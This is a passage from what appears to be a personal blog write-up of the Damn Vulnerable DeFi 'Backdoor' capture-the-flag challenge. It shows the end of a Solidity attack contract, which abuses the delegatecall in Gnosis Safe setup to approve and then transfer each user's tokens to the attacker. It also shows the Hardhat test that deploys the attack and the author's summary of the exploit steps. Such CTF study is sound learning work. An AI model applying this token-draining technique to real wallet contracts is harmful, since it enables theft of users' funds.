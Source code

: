 ```apache
                    IProxyCreationCallback(callback) // Wallet Registry
                )
            );
            DamnValuableToken(token).transferFrom(proxy, msg.sender, 10 ether);
        }
    }
}

contract ApproveAttack {
    function approve(address token, address backDoorContract, uint256 amount) public {
        DamnValuableToken(token).approve(backDoorContract, amount);
    }
}
```

```àpache
  it('Execution', async function () {
    const attackerFactory = walletFactory.connect(player);
    const attackerMasterCopy = masterCopy.connect(player);
    const attackerToken = token.connect(player);
    const attackerWalletRegistry = walletRegistry.connect(player);

    let attack = await ethers.getContractFactory('BackdoorAttack', player);
    let contract = await attack
      .connect(player)
      .deploy(attackerFactory.address, attackerMasterCopy.address, users, attackerToken.address, attackerWalletRegistry.address, {
        gasLimit: 30000000,
      });
  });
```

After quite some reading I spotted the vulnerability myself. But suffered with the gasLimit!!!! What a pain. I could not interpret the message cannot estimate gas correctly - instead of defining the gasLimit in the test or installing the gas-reporter I searched everything in the net for this issue and read the full project back and forth :-)

## Conclusion

Done 🎉️ ! This Damn Vulnerable Defi Challenge was easier to solve than challenge 12 Climber. Here it was just to follow the path of the code, seeing the setup function of the Gnosis Safe made the Vulnerability clear. The following steps of placing the attack to the constructor of the smart contract, iterating over all 4 users, create a proxy with the proxyfactory, make use of the optional delegate, realize that I need to create a seperate contract for the optional delegate call, because the attackers contract code is not yet deployed, approve a transfer in the separte contract because it is executed in the context of the proxyfactory, encode the necessary function and parameter and finally transfer the tokens from each user.

Reading the contract from Gnosis Safe and dealing with not enough gas was my major issue with this challenge. The first was very useful learning experience! The second that painful so that I will never forget setting the gasLimit or the gas-reporter. BTW deoploying these contracts is very expensive, so it is obvious the technical persons in charge moved from redeploying the full implementation to clones/proxies for each wallet. GREAT Week 13/14 DONE 🎉️!
